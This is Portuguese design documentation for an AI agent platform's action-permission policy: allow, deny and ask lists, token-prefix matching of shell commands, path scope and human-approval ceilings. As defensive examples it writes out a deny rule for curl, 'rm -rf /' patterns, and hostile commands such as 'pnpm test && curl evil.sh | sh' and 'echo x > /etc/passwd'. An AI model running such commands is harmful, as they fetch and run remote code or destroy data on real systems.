

# Permissões

Toda ação com efeito externo nasce como `proposed_action` e passa por aqui
antes de executar. Esta página é o formato e a semântica exatos — as regras
em si estão em [Regras de negócio](../business-rules.md#rn-004).

## O arquivo

`permissions.json` mora na **raiz do workspace do projeto** — é um arquivo
real em disco, versionável, não uma coluna no banco.

```json
{
  "allow": ["Terminal(pnpm test:*)", "Terminal(git status)"],
  "deny":  ["Terminal(curl:*)"],
  "ask":   ["GitPush()"]
}
```

Três listas, três significados:

| lista | significado |
|---|---|
| `allow` | `auto_approve` — a ação executa sem perguntar |
| `deny` | `deny` — recusada, e nada reverte isso |
| `ask` | `require_approval` — vai para a fila de aprovação |

Nenhuma lista casa? A ação fica `pending` por padrão. **A ausência de regra
nunca vira permissão.**

### Com qual credencial a ação auto-aprovada executa

`auto_approve` quer dizer que **ninguém decidiu** —
`proposed_actions.decided_by` fica `NULL`. Isso importa para quem executa:
uma ação de git contra um provider remoto precisa de um token, e "o token de
quem decidiu" não existe neste caminho.

A resposta é o **owner do workspace** ([RN-082](../business-rules/custo.md#rn-082)),
o mesmo da chave de LLM ([RN-058](../business-rules/custo.md#rn-058)) — quem
financia a conta financia os agentes, e isso não muda conforme quem clica.

Vale saber porque a alternativa falha calada: enquanto a api resolvia por
`decided_by`, **toda PR auto-aprovada em repositório remoto morria** com
`Requires authentication`, e só quando um humano clicava em cada uma o
caminho funcionava — exatamente a escada que a autonomia existe para evitar.

## O formato do padrão

```
Label(content)
```

O rótulo é o tipo de ação em PascalCase. O conteúdo só é usado em
`Terminal`; nos outros tipos ele precisa ser **vazio** — `GitPush()` casa com
qualquer push, e `GitPush(algo)` não casa com nada.

| tipo de ação | rótulo | papel mínimo |
|---|---|---|
| `terminal` | `Terminal` | developer |
| `git_commit` | `GitCommit` | developer |
| `write_file` | `WriteFile` | developer |
| `git_push` | `GitPush` | maintainer |
| `pr_open` | `PrOpen` | maintainer |
| `git_repo_create` | `GitRepoCreate` | maintainer |
| `git_branch_create` | `GitBranchCreate` | maintainer |
| `git_branch_protect` | `GitBranchProtect` | maintainer |
| `open_adr_pr` | `OpenAdrPr` | maintainer |
| `open_infra_pr` | `OpenInfraPr` | maintainer |
| `git_merge` | `GitMerge` | maintainer |
| `instruction_patch` | `InstructionPatch` | maintainer |
| `parallelize` | `Parallelize` | maintainer |
| `raise_max_parallel` | `RaiseMaxParallel` | maintainer |
| `propose_execution_plan` | `ProposeExecutionPlan` | maintainer |
| `assess_implementability` | `AssessImplementability` | maintainer |
| `container_start` | `ContainerStart` | maintainer |
| `container_stop` | `ContainerStop` | maintainer |
| `container_remove` | `ContainerRemove` | maintainer |
| `spend` | `Spend` | **owner** |

O papel mínimo é conferido **antes** do arquivo. Sem ele, `deny` — o
`permissions.json` não concede o que o IAM nega

`parallelize` (Fase 14d) é o único cujo efeito não é tocar código ou
repositório: ele pede mais AGENTES. Está em `maintainer` pelo mesmo motivo de
`spend` — quem autoriza custo é quem responde pelo projeto. Ele só existe
acima do teto do lead; dentro dele não há ação, porque não há nada a decidir
([RN-083](../business-rules/custo.md#rn-083))
([RN-005](../business-rules.md#rn-005)).

`propose_execution_plan` (ADR 0086, [RN-284](../business-rules.md#rn-284))
é o plano do Dev Lead — quantos agentes por módulo e por quê, antes de
qualquer um deles subir. Mesmo calibre de `parallelize`: uma decisão sobre
QUANTO o produto vai gastar em paralelismo, só que no começo em vez de no
estouro de um teto. Diferente de `parallelize`/`raise_max_parallel`, ele NÃO
está no bloco de tetos absolutos — pode ser configurado como `auto_approve`,
como `open_adr_pr`/`open_infra_pr` — e enquanto está `pending`, o turno do Dev
Lead fica SUSPENSO esperando a decisão, não só a conversa parada.

`assess_implementability` (ADR 0090, [RN-340](../business-rules.md#rn-340))
é a avaliação de implementabilidade de uma história (gate `implementavel`,
`docs/gates.yml`) — MESMO calibre e MESMO raciocínio de
`propose_execution_plan`: uma decisão inicial da sessão, não um estouro de
teto, e por isso também fora do bloco de tetos absolutos. Ela suspende o turno
do Dev Lead do mesmo jeito enquanto está `pending`.

`container_stop` e `container_remove` (ADR 0136,
[RN-495](../business-rules.md#rn-495)) são as duas ações que a página global
de containers (`/containers`) propõe quando alguém clica em "Parar" ou
"Remover" na linha de um projeto — sempre um humano, nunca um agente. As duas
são `maintainer`, como `container_start`: decide quem responde pela infra do
projeto. `container_stop` segue a calibragem de `container_start` — PODE ser
configurada `auto_approve` — exceto pela semeadura: `container_stop` nunca é
semeada, enquanto `container_start` é semeada `auto_approve` para o agente de
Infra quando o handoff dele é aceito (ADR 0190,
[RN-671](../business-rules.md#rn-671)). É essa semeadura que deixa a subida
que o SERVIDOR do Infra Lead propõe nesse aceite rodar sem um segundo clique;
o mínimo `maintainer`, as recusas por modo/estado e o 409 sem broker continuam
valendo antes dela.
`container_remove` não pode: ela descarta o container e força um
reprovisionamento completo, e está no bloco de tetos absolutos abaixo, mesmo
tratamento de git com efeito externo/comandos privilegiados.

**Nenhuma das três se importa com ONDE o container sobe.** `decide()` e todas
as regras acima ignoram o `executionMode` — a ramificação só existe na
EXECUÇÃO, depois da aprovação (`ExecuteContainerStartUseCase`/
`ExecuteContainerStopUseCase`/`ExecuteContainerRemoveUseCase`): a ação
aprovada de um projeto `container` continua indo para o broker
(`ContainerBrokerPort`, sem mudança); a de um projeto `mounted`/`runner` vai,
em vez disso, para o RUNNER conectado ao projeto, pelo canal Phoenix que ele
já mantém ([RN-497](../business-rules.md#rn-497),
[ADR 0137](../adr/0137-o-runner-sobe-o-container-do-projeto.md)). "Nenhum
runner conectado" e "o runner tentou e recusou" são os dois desfechos `failed`
comuns, mesma disciplina de uma recusa do broker — nunca uma exceção não
tratada.

**Mais uma coisa acontece na execução de `container_start`, e só em
`mounted`** ([RN-501](../business-rules.md#rn-501),
[ADR 0142](../adr/0142-validacao-de-workspace-montado-adiada.md)): a pasta do
projeto é MATERIALIZADA ali. Criar um projeto `mounted` não exige mais que a
pasta exista — a criação valida só o formato do caminho mais a
`BRABO_PROJECTS_BASE` — porque o requisito do dono do produto é que o
bind-mount seja criado DEPOIS da decisão do Arquiteto, e `container_start` é o
primeiro momento que se qualifica. Então o executor faz `mkdir -p` da pasta,
prova que ela é gravável de dentro da api e carimba `workspace_verified_at`,
tudo ANTES de qualquer transição de ciclo de vida. Uma pasta que a api não
consegue criar ou alcançar é um `failed` NOMEADO — nomeia a variável, o
caminho, a causa provável (dono da pasta no host; as imagens rodam
non-root, ADR 0024) e o próximo passo — e a linha do ciclo de vida **não** é
marcada `provisioning`: marcá-la e só então descobrir que não dá para escrever
deixaria `project_containers` afirmando um estado que nunca existiu. Nada disso
toca `decide()`, os tetos ou quem pode aprovar.

**E `container_start` resolve os recursos dele ali**
([RN-683](../business-rules.md#rn-683),
[ADR 0199](../adr/0199-recurso-minimo-derivado-do-module-map.md)): um campo
que a proposta OMITE — todos, na subida do servidor no aceite do handoff —
vira o MÍNIMO derivado do `module_map` vigente (a soma do que cada módulo
declarou, com piso no padrão de hoje enquanto algum módulo não declarou nada);
um campo ABAIXO desse mínimo é um `failed` nomeado, gravado antes de qualquer
decisão de imagem ou transição de ciclo de vida; acima dele, vale o teto de
sempre. Como a materialização da pasta, isto é execução, não política:
`decide()` e quem pode aprovar não mudam.

## Como um padrão casa com um comando

Não por substring. O comando é tokenizado com as regras do shell e o padrão
casa por **prefixo de token**:

| padrão | comando | casa? |
|---|---|---|
| `Terminal(pnpm test)` | `pnpm test` | ✅ |
| `Terminal(pnpm test)` | `pnpm test --watch` | ✅ (prefixo) |
| `Terminal(pnpm test)` | `pnpm build` | ❌ |
| `Terminal(pnpm test:*)` | `pnpm test:unit` | ✅ (`*` no fim do token) |
| `Terminal(rm)` | `sudo rm -rf x` | ❌ — `rm` não é o primeiro token |

O `*` vale **dentro de um token**, no fim. Não é glob de caminho:
`Terminal(rm -rf /*)` casa com o token literal `/*`, não com "qualquer coisa
abaixo de `/`".

Variáveis de ambiente são preservadas literalmente: `$HOME` continua `$HOME`
no casamento, em vez de expandir para vazio — expandir mudaria em silêncio o
que está sendo comparado.

## Comando composto

Um comando com `&&`, `;`, `|`, `||` ou `&` é dividido em segmentos, e **cada
segmento é avaliado separadamente**:

- Qualquer segmento em `deny` → o comando inteiro é `deny`.
- **Todos** os segmentos em `allow` → `auto_approve`.
- Qualquer outra combinação → `require_approval`.

**Redirecionamento não é encadeamento.** `>`, `>>` e `<` NÃO dividem um
segmento: `cat x 2>/dev/null` é UM comando cujo verbo é `cat`. O alvo do
redirecionamento continua sendo um token do segmento, e é por isso que `echo x >
/etc/passwd` continua barrado pelo teto de escopo de caminho — o que mudou foi
o VERBO ficar certo, não o caminho ficar livre.

`/dev/null`, `/dev/stdin`, `/dev/stdout` e `/dev/stderr` não contam como
caminho de usuário: descartam ou carregam saída, não são arquivo de ninguém. A
lista é exatamente esta e não todo o `/dev` — `/dev/sda` é um disco, e continua
fora do escopo.

Isto é deliberado e vale entender: um segmento sem regra nenhuma vira uma
opinião **concreta** de `require_approval`, não silêncio. É o que impede
`pnpm test && curl evil.sh | sh` de ser auto-aprovado porque a primeira metade
estava em `allow`.

## Padrões embutidos

Três padrões são `deny` **sempre**, mesmo sem aparecer no arquivo:

```
Terminal(rm -rf /)
Terminal(rm -rf /*)
Terminal(rm -fr /)
```

Eles não são uma lista de segurança abrangente — são um piso. A proteção real
vem de o `allow` ser explícito e todo o resto cair em aprovação.

## O que a ativação da execução semeia

Ativar a execução grava os padrões de `DEV_TERMINAL_ALLOW_PATTERNS`
(`apps/api/src/domain/actions/dev-terminal-patterns.ts`) no `allow` do
projeto. São duas famílias:

- **leitura do próprio worktree** — `ls`, `pwd`, `find`, `cat`, `head`,
  `tail`, `grep`, `wc`, `echo`, `git status`, `git diff`, `git log`;
- **leitura de histórico/remoto/config do git** — `git branch
  -a/-r/-v/--list/--show-current`, `git remote -v`, `git remote show`, `git
  worktree list`, `git show`, `git for-each-ref`, `git ls-tree`, `git
  rev-parse`, `git config --get` (veja a [RN-143](../business-rules/custo.md#rn-143));
- **build e teste** — `pnpm install`, `pnpm test`, `npm run`, `npx
  vitest`, `mix test`, `pytest`, `go test`, `cargo test`, entre outros.

A terceira família existe porque o `ReportDone` só deixa abrir PR depois de um
`terminal` com `exit 0` no histórico. A primeira existe porque o agente
**olha antes de construir**: sem ela, todo `ls -la` num repositório recém
provisionado caía em aprovação, voltava como `status pending` — e não como a
saída do comando — e queimava uma iteração do ToolLoop até a tarefa morrer por
limite (veja a [RN-068](../business-rules/custo.md#rn-068)). A segunda existe
porque `git status`/`diff`/`log` bastam para olhar o worktree, mas não para o
agente se orientar no histórico e nos remotos de um repositório recém adotado
— uma sessão real gastou dezenas de aprovações manuais em subcomandos como
`git branch -a` ou `git worktree list` que ficavam fora do `allow` e
empurravam para aprovação manual todo comando composto em que apareciam.

Isto NÃO afrouxa nada do que está descrito acima. Continua valendo que `deny`
vence `allow`, que os padrões embutidos seguem ativos, que o casamento é por
prefixo de **token** (`ls` permitido não permite `lsof`), e que um comando
composto exige que TODO segmento case — então `ls && rm -rf /` não passa por
causa do `ls`.

A segunda família exige cuidado a mais, porque o casamento por prefixo permite
QUALQUER coisa depois do prefixo que casou: um padrão nu `Terminal(git
branch)` casaria tanto com `git branch -D nome` (apaga) quanto com `git branch
nome-nova` (cria) além da listagem simples, porque não enxerga o que vem
depois. Por isso `branch`, `remote`, `worktree` e `config` — os quatro que têm
um irmão que MUTA — só entraram ANCORADOS pela flag que torna a leitura
inequívoca (`-a`/`-v`/`show`/`list`/`--get`), nunca pelo verbo nu;
`git branch -D/-d/-m/-M`, `git remote add/remove/set-url`,
`git worktree add/remove/prune` e `git config <chave> <valor>` (sem `--get`)
continuam exigindo aprovação. `show`, `log`, `for-each-ref`, `ls-tree` e
`rev-parse` não precisaram de âncora: nenhuma continuação deles muta o
repositório.

Auto-aprovar `terminal` via `agent_autonomy` seria diferente e não é o que se
faz: liberaria QUALQUER comando dentro do container do engine, sem arquivo no
meio.

## A ordem completa da decisão



**O nó `Z` mudou de posição** ([RN-418](../business-rules.md#rn-418), revisa
a [RN-106](../business-rules/autenticacao.md#rn-106)): até a chegada do
runner local, ele ficava logo depois do IAM e devolvia `deny` — agora é um
TETO, no mesmo bloco final dos outros três, aplicado depois de
`agent_autonomy` e `permissions.json` já terem opinado. Veja a seção
["A fronteira de efeito externo e comando privilegiado"](#a-fronteira-de-efeito-externo-e-comando-privilegiado-rn-418)
abaixo para o porquê.

### "Modo automático": a curinga do `agent_autonomy` ([RN-153](../business-rules/autenticacao.md#rn-153))

O nó `agent_autonomy tem opinião?` do diagrama acima não sabe, e não precisa
saber, se a opinião veio de uma regra ESPECÍFICA (`actionType: "terminal"`) ou
da curinga `actionType: "*"` — o "modo automático": autonomia para QUALQUER
tipo de ação daquele agente, ligada com um clique em "Modo automático" no
`ApprovalCard`. A resolução acontece ANTES de este diagrama começar, num
repositório só: `DrizzleAgentAutonomyRepository.findMode` procura a regra
específica e a curinga na mesma consulta, e devolve a específica quando as duas
existem — gravar `terminal: deny` com `"*": auto_approve` ligado continua
negando `terminal` para aquele agente, enquanto libera o resto.

Por isso o diagrama não ganhou nó novo, e os tetos, logo abaixo, valem para o
"modo automático" porque reagem a `current.policy === 'auto_approve'`, nunca à
origem dele ([RN-154](../business-rules/autenticacao.md#rn-154)).

**Uma exceção, decidida pelo dono do produto: o modo automático libera o
escopo de caminho** ([RN-603](../business-rules/autenticacao.md#rn-603),
[ADR 0167](../adr/0167-modo-automatico-libera-o-escopo-de-caminho.md)). O
repositório devolve também DE ONDE a autonomia veio
(`AgentAutonomyRepository.resolve`: `especifica` ou `curinga`), e `decide()` a
recebe como `ctx.autonomyOrigin`. Quando a curinga resolve para
`auto_approve`, dois pedidos de aprovação somem: o [teto de escopo de
caminho](#path-scope) e o `require_approval` que um comando composto sintetiza
para um segmento sem regra nenhuma. Então um agente em modo automático roda
qualquer comando de terminal, mesmo fora da pasta do projeto — medido no
`exp001`, 47 de 51 pedidos depois de o modo automático ser ligado vinham só do
escopo, porque o dev agent roda dentro do container (`/work`) e o escopo
compara com a raiz do HOST. Todo o resto fica: `deny` vence, um `ask` escrito
no arquivo pergunta, o teto de efeito externo/privilegiado (push, PR, deploy,
`sudo`/`doas`) roda primeiro e ignora a origem, e merge em branch protegida,
`instruction_patch`, paralelismo e `container_remove` nunca auto-aprovam. Uma
regra ESPECÍFICA (`terminal: auto_approve` ou `terminal: require_approval`)
não é modo automático e mantém o teto de escopo.

Quando um `git_merge` que o humano aprovou EXECUTA e o provider informa a PR
como `merged`, a tarefa de onde a PR veio passa a `done` — uma vez: um merge
repetido da mesma PR não a move de novo nem grava um segundo evento
`backlog.task_status_changed` ([RN-628](../business-rules.md#rn-628)). O merge
em si nunca é automatizado ([RN-418](../business-rules.md#rn-418)).

Um `git_merge` é RECUSADO antes de ser criado quando a mesma PR já foi mergeada
por uma execução anterior (409 `pr_ja_mergeado`) ou já tem uma proposta viva —
pendente, aprovada ou auto-aprovada (409 `merge_ja_proposto`); uma negada ou
falhada não impede tentar de novo. Aprovar um merge pendente cuja PR outra
proposta já mergeou também é 409 `pr_ja_mergeado`, e a ação fica `pending`. Um
gate de QA/SecOps ainda pendente NÃO é recusa: a aba de PRs e o chat só
AVISAM, nomeando o gate, e o botão fica habilitado
([RN-663](../business-rules.md#rn-663)).

O "modo automático" exige `maintainer` — o mesmo papel que já protegia
`PUT .../agent-autonomy` antes de a curinga existir. Desligá-lo reusa o toggle
manual/auto que o card do agente já tinha em Visão geral/Executores: com a
curinga gravada, o toggle passa a editar ELA em vez do tipo representativo de
sempre, e "manual" nele é a mesma curinga regravada como `require_approval`.

### O piso do container ([RN-492](../business-rules.md#rn-492)/[RN-493](../business-rules.md#rn-493), [ADR 0134](../adr/0134-dev-agents-executam-dentro-do-container.md))

O nó `C0` do diagrama acima é novo: quando a ação é `terminal` E o projeto tem
um container REGISTRADO como `running` em `project_containers`
(`execution_mode: container` — conferido por `ProposeActionUseCase`, que já lê
o mesmo ciclo de vida do container que o lado da execução lê), o valor BASE
deixa de ser `require_approval` e começa como `auto_approve`.

Isto é um piso, não um teto novo, e a distinção importa: toda etapa seguinte
(`agent_autonomy`, `permissions.json`) já SUBSTITUI o valor base quando tem
opinião explícita — é o mesmo mecanismo que já deixava uma regra `deny` ou um
padrão `ask` sobrepor o `require_approval` padrão hoje. Partir de
`auto_approve` em vez de `require_approval` não muda essa propriedade: um
`deny` explícito ou um padrão `ask` que casa continua vencendo o piso
exatamente como já vencia o padrão. E os quatro tetos abaixo (`S`, `Z`, `H` e
a regra do comando composto) continuam valendo por cima, incondicionalmente,
venha o `auto_approve` do piso ou de uma regra explícita — `git push` dentro de
um container em execução continua `require_approval`, como sempre.

**Por que isto é seguro: uma segunda fronteira, mais forte, não a ausência de
uma.** Fora de um container, o escopo de caminho LÉXICO abaixo
(`comandoNoEscopo` contra `projectScopeRoot`, um caminho do HOST) é o que torna
seguro auto-aprovar via `permissions.json allow`. Dentro do container real, o
comando fisicamente não enxerga nada fora de `/work` — o mount namespace do
Docker — e o broker revalida de forma independente que o `cwd` está dentro de
`/work` antes de rodar qualquer coisa (`DiretorioForaDoEscopoError`). **O
escopo de caminho léxico continua rodando por cima do piso, sem mudança**:
`cwd`/`command` que chegam a `decide()` nunca são traduzidos para `/work` (essa
tradução acontece depois, do lado do engine, logo antes de chamar o broker),
então um comando que hoje seria marcado fora do escopo continua marcado fora do
escopo com o piso ligado — é defesa em profundidade redundante, não
substituição.

## A fronteira de efeito externo e comando privilegiado (RN-418) {#a-fronteira-de-efeito-externo-e-comando-privilegiado-rn-418}

**Revisão do [ADR 0065](../adr/0065-container-por-projeto-a-fronteira-deixa-de-ser-politica.md)
pelo [ADR 0102](../adr/0102-revisao-do-adr-0065-teto-absoluto-substitui-deny.md)**
— uma decisão GLOBAL e explícita do dono do produto, confirmada depois de um
aviso automático de segurança sobre a mudança (o histórico inteiro está no
ADR). O que segue descreve o comportamento ATUAL; a versão anterior (`deny`
incondicional, aplicado antes de qualquer etapa permissiva) foi substituída,
não afrouxada — veja o porquê logo abaixo.

`git push`, `git remote add`/`set-url`, `git merge`, as CLIs dos providers
(`gh pr create`, `gh pr merge`, `glab mr create`/`merge`, releases e
workflow dispatch), comandos comuns de deploy (`kubectl apply`, `helm
upgrade`, `terraform apply`, `docker push`, `npm publish`, ...) e agora
também `sudo`/`doas` num comando de `terminal` são um **TETO ABSOLUTO** (e,
desde a [RN-689](../business-rules.md#rn-689), também as ações TIPADAS
`git_push` e `pr_open`, que até então a curinga `"*"`, uma regra específica ou
o `permissions.json` promoviam a `auto_approve`) — no mesmo bloco final dos
outros três tetos (veja ["Tetos"](#caps) abaixo), aplicado depois de
`agent_autonomy` e `permissions.json` já terem opinado: se o veredito até ali
era `auto_approve`, ele vira `require_approval` incondicional. Nem a curinga
`"*"` do "modo automático" nem uma entrada `allow` no `permissions.json`
conseguem promovê-lo de volta.

**Por que `require_approval` agora é seguro, quando antes exigia `deny`.** O
motivo histórico do `deny` era concreto: "sempre permitir" grava o padrão no
`allow`, e um único clique bastaria para reabrir a porta para sempre. Essa
brecha foi fechada NA FONTE, não contornada:
`ApproveAlwaysActionUseCase`/`patternsForAction`
(`apps/api/src/application/use-cases/actions/approve-always-action.use-case.ts`)
RECUSAM gravar padrão no `allow` para ação de terminal com efeito externo de
git ou comando privilegiado — o usuário continua aprovando a instância
específica pelo fluxo normal, mas "sempre permitir" nunca grava o padrão nesses
dois casos. Sem essa recusa, o teto seria decorativo.

`sudo`/`doas` ganharam categoria própria em `external-effect.ts`
(`comandoPrivilegiadoNoComando`), casando pelo VERBO em qualquer segmento —
mesmo princípio de `efeitoExternoNoComando` para git, que continua casando por
**prefixo de token**, ignorando flags globais no meio (`git -C /tmp push` casa
com `git push`). Cada segmento de um comando composto é conferido: `pnpm
test && git push origin main` é barrado pelo segundo segmento, do mesmo jeito
que um comando composto já exige que todo segmento case para virar
`auto_approve`.

O teto não tira poder do agente: para git, a mensagem de erro continua
apontando qual ação **tipada** usar — `git_push`, `git_merge` ou `pr_open` —,
que nasce `proposed_action`, segue o pipeline normal e grava no event log o que
foi enviado e para onde (é o caminho que o dev agent já usa hoje,
`agent_io.ex`). `sudo`/`doas` não têm ação tipada equivalente — a mensagem só
explica por que aquele comando exige decisão humana.

**Onde isto mais importa agora**: o
[runner local](../adr/0103-runner-local-execucao-na-maquina-do-usuario.md)
executa comandos JÁ aprovados na própria máquina do usuário, com os
privilégios dele — é exatamente o cenário em que um `sudo` legítimo (ou uma
tentativa de escapar via `sudo`) precisa de uma parada humana garantida por
construção, não por convenção do `permissions.json`.

**`container_remove` (ADR 0136, [RN-495](../business-rules.md#rn-495))
entra na mesma recusa de "sempre permitir"**, por um mecanismo mais simples
que o de cima: ele não é comando de `terminal` casado por token, é um
`actionType` próprio, então `ApproveAlwaysActionUseCase` recusa o clique de
saída para esse tipo — nenhum padrão é gravado, e o usuário aprova a instância
específica pelo fluxo normal. `container_start` e `container_stop` NÃO são
recusados assim: podem ser configurados `auto_approve`, mesmo calibre de
`open_adr_pr`/`open_infra_pr` — `container_stop` nunca é semeado, e
`container_start` é semeado para o agente de Infra no aceite do handoff dele
desde o ADR 0190.

**Ordem de um clique em "sempre permitir" ([RN-642](../business-rules.md#rn-642)).**
A aprovação e o padrão são gravados na MESMA transação: o padrão (no `allow`,
ou no `agent_autonomy` para um dev agent de módulo) e o evento
`permission.granted` dele só são escritos depois de a transição para fora de
`pending` ser válida, e um padrão que falha ao gravar desfaz a aprovação. O
`permissions.json` é arquivo e não entra na transação — a janela residual é o
commit falhar depois de o arquivo ter sido escrito, declarada. Clicar numa ação
que já saiu de `pending` por uma APROVAÇÃO (um duplo clique, a mesma ação
pendente mostrada em dois painéis) é sucesso idempotente,
`desfecho: "ja_aprovada"`, que grava o padrão só se ele falta; clicar numa ação
NEGADA continua `409` com `reason: "acao_ja_recusada"` e não grava nada. Os
tetos acima são conferidos antes de tudo isso, mesmo para uma ação que já foi
aprovada.

**A metade TIPADA do teto (AT-320).** Até 30/09 só o comando digitado
`git push` era recusado; uma ação tipada `git_push` passava e gravava
`GitPush()` no `allow`. "Sempre permitir" agora recusa, por tipo, a lista
única `TIPOS_SEM_SEMPRE_PERMITIR`
(`apps/api/src/domain/actions/sempre-permitir.ts`): `git_push`, `pr_open`,
`git_merge`, `container_remove`, `instruction_patch`, `parallelize` e
`raise_max_parallel` — `400` com `reason: "teto_do_sempre_permitir"`. O card
de aprovação esconde o botão para a mesma lista (uma cópia conferida contra
esta por teste). Quando entrou, isto NÃO mudou `decide()` nem o que a ativação
da execução semeia; desde a [RN-689](../business-rules.md#rn-689) os dois
mudaram: `git_push` e `pr_open` estão dentro do teto da RN-418 em `decide()`
(veja ["Tetos"](#caps)), e ativar a execução semeia só `git_commit` como
`auto_approve` para cada `dev-<modulo>`.

**A unidade do padrão gravado: verbo + subcomando, um por segmento
([RN-675](../business-rules.md#rn-675), decisão do dono de 01/10).** "Sempre
permitir" não grava mais o comando inteiro byte a byte: cada segmento do
comando (dividido em `&&`, `||`, `;`, `|`, `&`, como `decide()` o divide) vira
um padrão — o verbo mais o subcomando quando o segundo token é uma palavra
(`npm test`, `git status`, `mix test`, `npx vitest`), o verbo sozinho quando é
um argumento que não é palavra (`cat src/x.ts` → `Terminal(cat)`,
`cd ../lib` → `Terminal(cd)`), e o segmento EXATO quando o segundo token é uma
flag (`ls -la src`) ou quando a unidade seria prefixo de um teto da RN-418
(`git remote -v`, `gh pr list` ficam exatos). Um segmento que é prefixo de teto
mesmo exato (`git` sozinho) não grava nada. `cd src/app && npm test` grava
`Terminal(cd)` e `Terminal(npm test)`, e o próximo
`cd lib/core && npm test -- --coverage` roda sem perguntar. O casamento
continua por prefixo de token, os tetos continuam rodando depois do arquivo em
`decide()`, e o escopo de caminho continua valendo fora do modo automático. O
clique de um dev agent de módulo continua indo para o `agent_autonomy`, não
para um padrão ([RN-509](../business-rules.md#rn-509)).

## Escopo de caminho {#path-scope}

Um comando de `terminal` é avaliado também por **onde ele toca**, não só pelo
verbo ([ADR 0055](../adr/0055-escopo-de-caminho-na-politica-de-terminal.md),
[RN-075](../business-rules/custo.md#rn-075)). A pasta do projeto —
`<PROJECT_WORKSPACES_ROOT>/<workspace_dir_name>`, onde moram o
`permissions.json` e todos os worktrees dos agentes — é o **escopo**.
`workspace_dir_name`
([ADR 0066](../adr/0066-nome-de-pasta-legivel-do-workspace.md),
[RN-109](../business-rules/autenticacao.md#rn-109)) é o nome da pasta
congelado na criação do projeto — legível (`<slug>-<8 caracteres do id>`) num
projeto novo, o UUID puro num projeto de antes dessa mudança.

**Um projeto em modo `local` tem um escopo diferente, e a diferença importa
aqui** ([ADR 0072](../adr/0072-projeto-local-ou-container.md),
[RN-169](../business-rules/autenticacao.md#rn-169)/[RN-170](../business-rules/autenticacao.md#rn-170)):
a raiz passa a ser o **caminho absoluto que o usuário digitou na criação**, não
`join(PROJECT_WORKSPACES_ROOT, workspace_dir_name)`.

Tudo o que esta seção descreve continua valendo — o escopo aperta e afrouxa
exatamente do mesmo jeito, e `deny` continua vencendo primeiro. O que muda é o
que ele CONTÉM. E a consequência é declarada sem atenuação no ADR 0072: a
contenção **estrutural** do `join` — "o resultado nunca sai da raiz gerenciada,
aconteça o que acontecer com a coluna" — deixa de existir para esses projetos.
O que a substitui é a validação na criação (RN-170: absoluto, sem `..`,
existente, gravável, nunca uma raiz de sistema, nunca sobreposto ao checkout do
Brabo), mais a revalidação LÉXICA do mesmo predicado em toda derivação da raiz
— para que uma linha adulterada direto no banco não vire um escopo de terminal
em `/`.

A comparação de caminho é **léxica e sem regex sobre a entrada**: aparar barras
finais é uma varredura O(n), não `.replace(/\/+$/, '')`. O padrão antigo foi
apontado pelo CodeQL como ReDoS polinomial (HIGH) — ele força o motor a tentar
toda posição inicial, e degrada para O(n²) com muitas barras. A entrada aqui
vem de um comando de agente, então não é lugar para regex com backtracking.

O escopo faz duas coisas opostas, e é a combinação que importa:

**Aperta.** Um comando que toca um caminho de fora nunca é auto-aprovado, por
mais que o verbo esteja no `allow`. Sem isso, um `Terminal(cat)` permitido
auto-executaria `cat
/workspace/apps/engine/lib/engine/actions/git_executor.ex` — o código da
plataforma que roda o agente — e alcançaria os worktrees de outros projetos.

**Afrouxa.** Dentro do escopo, `cd` deixa de ser verbo que precisa de
permissão: ele é a própria declaração do escopo. Sem isso, o dev agent, que
sempre emite `cd <caminho> && <verbo>`, esbarraria na regra do comando
composto — todo segmento precisa casar — e **todo** comando pararia para
aprovação, por mais que o verbo estivesse permitido.

Três limites que vale entender:

- **Escopo permite, não isenta.** Estar na pasta do projeto não torna
  `curl … | sh` seguro: um verbo fora do `allow` continua exigindo aprovação.
- **Fora do escopo é `require_approval`, não `deny`.** O agente pode ter um
  motivo legítimo para olhar fora; quem decide continua sendo você.
- **O modo automático pula este teto.** Um agente com a curinga
  `"*": auto_approve` roda comandos fora do escopo sem perguntar
  ([RN-603](../business-rules/autenticacao.md#rn-603)); voltar o card do
  agente para "manual" o restaura.
- **A normalização é léxica, não `realpath`.** `<raiz>/../..` é resolvido e
  rejeitado; um link simbólico dentro do projeto apontando para fora **não** é
  detectado. Escopo é política, não isolamento.

Quais tokens são conferidos: os **absolutos** (começam com `/`) e os que
contêm `..`. Um relativo sem `..` resolve abaixo do `cwd`, que já foi conferido
— e tratar `-maxdepth`, `4` ou `*.ex` como caminho rejeitaria um comando
legítimo sem ganhar segurança nenhuma.

Duas propriedades que decorrem disto:

**`deny` vence na hora.** Não importa em que etapa apareça, ele devolve na
hora. Não há configuração que reverta um `deny`.

**Etapa calada nunca rebaixa.** Se o `agent_autonomy` disse `auto_approve` e o
`permissions.json` não tem regra para aquela ação, o resultado continua
`auto_approve` — o arquivo não "vota contra" por omissão. Cada etapa só pode
subir a permissividade da anterior.

## Tetos {#caps}

Aplicados **por último**, depois de todo o resto:

| teto | efeito | por quê |
|---|---|---|
| `git_merge` com destino em `dev`, `qa`, `rc` ou `main` | `auto_approve` → `require_approval` | merge em branch protegida é sempre decisão sua ([RN-006](../business-rules.md#rn-006)) |
| `instruction_patch` | `auto_approve` → `require_approval` | você precisa ver o diff antes de um agente mudar o comportamento de outro ([RN-007](../business-rules.md#rn-007)) |
| `parallelize` e `raise_max_parallel` | `auto_approve` → `require_approval` | gastar com mais agentes é decisão sua; sem este teto o limite do lead seria decorativo, e subir o próprio teto seria o produto subindo o próprio limite de gasto ([RN-086](../business-rules/custo.md#rn-086)) |
